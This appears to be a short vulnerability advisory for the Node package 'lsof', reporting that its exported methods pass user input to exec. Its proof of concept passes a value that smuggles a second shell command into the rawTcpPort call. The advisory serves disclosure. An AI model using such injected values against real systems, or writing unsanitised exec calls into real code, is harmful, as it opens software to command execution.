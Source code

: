 # Overview

`lsof` is a lsof processor for node, this package are vulnerable to Command Injection.

Multiple areas of the package is vulnerable to command injection. Every exported method used by the packages uses the exec function to parse user input.

# Proof of Concept

```
var root = require("lsof");
var attack_code = "& echo vulnerable > create.txt &";
root.rawTcpPort(attack_code, function(){});
```
